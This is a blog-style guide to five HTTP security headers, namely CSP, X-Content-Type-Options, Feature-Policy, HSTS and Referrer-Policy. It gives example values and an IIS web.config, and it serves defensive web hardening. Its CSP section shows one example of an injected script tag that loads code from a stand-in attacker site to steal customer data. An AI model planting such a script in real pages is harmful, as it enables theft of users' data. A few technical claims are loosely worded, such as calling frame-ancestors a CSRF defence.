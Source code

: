 # Top-5 HTTP Security Headers in 2020

Nowadays, security is important as never before. I've prepared a very small article about the Top-5 security headers in 2020 that will help your site keep your users in safety. Have a nice reading!

## Content-Security-Policy

One of the most important security header. It was created to prevent the usage of any resource from an untrusted source.

Let's go to the short example first:

Evil Bob found [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability on Alice's site. He decides to inject the script into the web-page to steal some customer data. He put this script tag into her page

```html
<script src="https://my-evilt-site.org/very-evil-script.js"></script>
```

and waits for the results

Luckily, Alice knows about CSP header and already added it to the response : ```Content-Security-Policy: default-src 'self'```. Now, a browser already knows, that scripts (and images, and fonts, and styles) not from origin domains are forbidden to use and Bob's attack fails.

Withing this header you can deny inline scripts and eval usage (goodby inline XSS), specify a checksum for the scripts (good by substitution of the 3rd party scripts), allow specific domains for your images, fonts, and styles. It can restrict fetch requests, deny usage of your site inside an iframe (goodby [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)) and much more. CSP header is very flexible and can support almost all of your needs.

### Can I use?

CSP header [supported](https://caniuse.com/#feat=mdn-http_headers_csp_content-security-policy) by almost all browsers including IE (but with a special name - X-Content-Security-Policy). Some of the directives may not be supported across different browsers but this will not ruin the header.

### Code Example

* Allow all remote resources from your domain: ```Content-Security-Policy: default-src 'self'```. No external API calls allowed!
* Allow all remote resource from your domain and external api calls: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://my-example-api.ua```. IFraming is allowed.
* Allow all remote resource from your domain, external api calls, disallow iframing your site: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://my-example-api.ua; frame-ancestors 'none';``` Not so strict as I wish.
* Disallow everything except whitelisted: ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self'; frame-ancestors 'none'``` Much better now but without [critical css](https://developer.mozilla.org/en-US/docs/Web/Performance/Critical_rendering_path)
* Disallow everything except whitelisted (with inline css): ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'```

Examples are simplified just to give you a better understanding of the CSP header power. For additional info check the [mdn page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) and the [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/) is also very useful.

**Important Notice**: If you need to deny the possibility to iframe your site in IE - you should use [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)


## X-Content-Type-Options

This is a bit tricky header but it works very well with CSP, so it worth mentioning.

Imagine, that Evil Bob found XSS on Alice's site and tries to put some malicious script inside. But Alice already has setup CSP policy, so his attempt to download javascript from untrusted resources fails. But Evil Bob is smart. He changes the type of the injected script to "text/plain". Now, CSP protection will allow loading script, because it is not javascript anymore and should not be executed. But sometimes, browsers try to be too smart. They may check the content of the loading "text", and decide to execute it as JavaScript. This named sniffing and this behavior varies depending on the browser.

This header tells the browser,  strictly follow provided Mime/Type, and don't try to guess.

### Can I use?

[Supported](https://caniuse.com/#feat=mdn-http_headers_x-content-type-options) by all browsers except Safari.

### Code Example

Only one option is possible: ```X-Content-Type-Options: nosniff```

## Feature-Policy

This header is designed to turn off features that you don't expect to be used.

Alice has a nice and shiny site with a big audience. Evil Bob found XSS and decided to use Alice's site for spying using a user's web camera. So he injects malicious code and waits for the dozen of the new videos.

But, fortunately, Alice already set Feature-Policy header to ```Feature-Policy: camera 'none'```

Now, browsers know, that using a camera is not permitted for anyone, and Bob's attempt fails. Of course, you can turn off not only a camera but also autoplay (useful when you are showing some ads from 3rd party vendors), microphone and very much more. If you don't want to turn it off for all, you can allow to use it only for code from your domain.


### Can I use?

Partially [supported](https://caniuse.com/#feat=feature-policy) by most of the browsers and not supported by the IE.

### Code Example

Disabling geolocation:  ```Feature-Policy: geolocation 'none'```
Disabling sensetive features:  ```Feature-Policy: camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'```

## Strict-Transport-Security

This is a very simple header for those who use HTTPS. It tells the browser to use only HTTPS connection, even if the user is trying to use HTTP.

Let's imaging that Alice is sitting in a public place and use public WiFi. Evil Bob is sitting not very far from her and trying to sniff all non-encrypted traffic. Alice decides to visit some online-shop and uses an old and good link like www://my-example-shop.com. Evil Bob sees her request (it's not encrypted) and starts recording Alice's activity hoping to get credit card information. But, after the first request, the shop returns STS header: ```Strict-Transport-Security: max-age=31536000```. And browsers automatically redirects Alice to the HTTPS version of the page. From now, Evil Bob sees only encrypted traffic and can't steal anything.

## Can I use?

[Supported](https://caniuse.com/#feat=stricttransportsecurity) by all browsers except Opera Mini. And Yes, IE also supports this header.

### Code Example

```Strict-Transport-Security: max-age=31536000; includeSubDomains```

## Referrer-Policy

Controls how much of the referer information (host, query params, etc) are sent within the request.

Short example:

Alice has a forum about cats with lots of links to other resources. When a user clicks on the link, he is navigated to another web page, and this web page can gather some information about the source of the navigation. You value the privacy of your users and want to keep this information secret. You set Referer-Policy header and deny browser to send referer information for all except your self.

### Can I use?

Mostly [Supported](https://caniuse.com/#feat=referrer-policy) with all (IE - partially) browsers except Opera Mini

### Code Example

Showing referer info only for the origin: ```Referrer-Policy: same-origin```

## Summary:

As far as I use .NET, here is the result setup for web.config: (note, unsafe js inline is not supported):

```xml
<customHeaders>
    <add name="Content-Security-Policy" value="default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'" />
    <add name="Feature-Policy" value="camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'" />
    <add name="X-Content-Type-Options" value="nosniff"/>
    <add name="Referrer-Policy" value="same-origin"/>
    <add name="Strict-Transport-Security" value="max-age=31536000"/>
</customHeaders>
```

## Usefull links:

* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)
* [Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy)
* [Using Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy/Using_Feature_Policy)
* [X-Content-Type-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/headers/X-Content-Type-Options)
* [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
* [Strict-Transport-Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)


Bonus: web.config with all set headers can be found [here](https://github.com/Drag13/articles/blob/master/headers/web.config)

**Stay safe and don't forget to remove x-powered header! :)**

[Thanks to John Salvino for the photo]

